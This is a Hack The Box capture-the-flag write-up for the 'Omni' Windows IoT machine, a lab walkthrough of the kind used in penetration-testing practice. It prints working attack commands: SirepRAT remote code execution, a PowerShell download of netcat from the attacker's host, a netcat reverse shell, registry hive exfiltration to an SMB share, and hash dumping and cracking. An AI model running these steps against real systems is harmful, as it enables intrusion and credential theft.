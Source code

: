 ```yaml
---
layout: post
title:  "Hack The Box - Omni Writeup"
date:   2021-01-09 06:00:00
categories: "htb"
author: Ryan
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Omni/Header.png)

Omni is an Easy level "Other" machine. Boxes typically fall under the "Linux" or "Windows" category, so this deviation from the norm should lead to a fun and interesting challenge. Based on the creator and community statistics, this box has a decent balance across all areas, but leaning slightly more towards realistic configurations exploited with existing CVEs.  
![Statistics](../images/HTB-Omni/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p135,5985,8080,29817,29819,29820 -sV -sC -Pn -oA Extracts/Omni 10.10.10.204`  
![Nmap](../images/HTB-Omni/nmap.png)

* **Port 135 - msrpc**: Microsoft Remote Procedure Call, is used to negotiate communication over ports 1025 - 65535. 
* **Port 5985 - upnp**: Although nmap shows this port is hosting some type of IIS server, port 5985 is also used for [WinRM](https://docs.microsoft.com/en-us/windows/win32/winrm/portal). If we're able to find credentials, it's posible this will be our way into the machine.
* **Port 8080 - upnp**: Another reference to IIS here, it looks like one of our nmap scripts discovered a "Windows Device Portal" application requiring basic authentication. 
* **Ports 29817, 29819, 29820**: After a bit of research, it appears that these ports are related to WPCon, WPConTCPPing, WPPingSirep, and WPConProtocol2. The Arcserve reference could also be useful later on.

### Windows IoT
Looking into the "Windows Device Portal" finding, we're led to documentation around the Windows IoT platform. We're likely targetting an IoT device, which should narrow down our focus with CVEs and exploits.

## Foothold
Combining the discovery of a Windows IoT device with the higher ports, we find an exploit against the Sirep Test Service that allows for Remote Code Execution. We can leverage this using a simple python tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT), along with a list of writeble directories to work with.  
![Writeable](../images/HTB-Omni/Foothold_Writeable.png)

### Upload Netcat
Our first step to gaining access on the machine is to upload a netcat executable. This will allow us to create a connection back to our machine and execute additional commands. Start up a simple python server to host our nc46.exe.  
`>> python -m SimpleHTTPServer`

Next, we'll execute a command on the target server to request our file and download it to the Windows Temp directory.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell -c Invoke-WebRequest -OutFile C:\\Windows\\Temp\\nc64.exe -URI 10.10.14.28:8000/nc64.exe" --v`

### Reverse Shell
With the netcat executable in place, our next step is to create a listener on our local machine.  
`>> nc -lvnp 4444`  

We'll send a second command to the target server, this time connecting back to our listener and gaining shell as the Omni user.  
`>> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\Temp\\nc64.exe 10.10.14.28 4444 -e cmd.exe"`  
![Reverse Shell](../images/HTB-Omni/Foothold_Shell.png)  

### Locating Credentials
Typically, the user flag can be found easily in the Desktop of the user you gained access with. However, this box seems to have a different setup than most and will require us to do a little extra digging. We can search for the `user.txt` file with Powershell.  
`>> powershell -c get-childitem -path c:\ -filter user.txt -recurse -erroraction silentlycontinue -force`  
![Flag Search](../images/HTB-Omni/Foothold_Search.png)  

Reading the contents of `C:\Data\Users\app\user.txt` leads to some Powershell credential information. Unfortunately, we can't decrypt the flag inside yet because it belongs to the app user.  
![User File](../images/HTB-Omni/Foothold_User.png)  

### Extracting SAM, SYSTEM, SECURITY files
Although there is an alternative path on this box involving a batch file left behind during creation, we'll be looking at the intended solution dumping user hashes from the registry. The Security Account Manager (or SAM file) is a database containing all the password hashes for user accounts. The SYSTEM and SECURITY files will allow us to extract the hashes for cracking.

We'll start off by configuring an SMB Share on our local machine to tansfer the files to.  
`>> sudo smbserver.py share . -smb2support -username omni -password omni`

With the share running, we can connect to it from the Omni shell using the credentials we set up.  
`>> net use \\10.10.14.15\share /u:omni omni`

And now, we're able to extract the files while sending them to our machine:  
`>> reg save HKLM\sam \\10.10.14.15\share\SAM`  
`>> reg save HKLM\system \\10.10.14.15\share\SYSTEM`  
`>> reg save HKLM\security \\10.10.14.15\share\SECURITY`  
![SMB Share](../images/HTB-Omni/SMB_Share.png)

### Extracting Hashes
With the files we need successfully sent to our local machine, we're able to extract the hashes inside using `secretsdump.py`.  
`>> secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL`  
![Hashes](../images/HTB-Omni/Hashes.png)

### Cracking Hashes
Our last step to getting user credentials is to run the hashes through `hashcat` and see what we can find.  
`>> .\hashcat.exe -a0 -m1000 .\hash.txt .\rockyou.txt --username`  
![Hashes Cracked](../images/HTB-Omni/Hashes_Cracked.png)

Looks like we've got credentials for the app user!
`app:mesh5143`

### User Flag
Authenticating with the app user credentials against port 8080 results in access to the Windows Device Portal we previously discovered. Under `Processes > Run Command`, we're able to execute arbitrary commands on the system. Let's get the User flag  
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\app\user.txt;$credential.GetNetworkCredential().Password`
![User Flag](../images/HTB-Omni/User_Flag.png)  

## Privilege Escalation
In addition to the user flag file, the app user's directory contains an `iot_admin.xml` file. Executing the previous command against the new file results in gaining the admin password `_1nt3rn37ofTh1nGz`.

Reauthenticating to the dashboard using the administrative credentials, we're shown an identical screen as the app user. Again, navigating to `Processes > Run Command` will allow us to execute system commands, this time as the admin. 

### Root Flag
`>> powershell -c $credential = Import-CliXml -Path C:\Data\Users\administrator\root.txt;$credential.GetNetworkCredential().Password`  
![Root Flag](../images/HTB-Omni/Root_Flag.png)  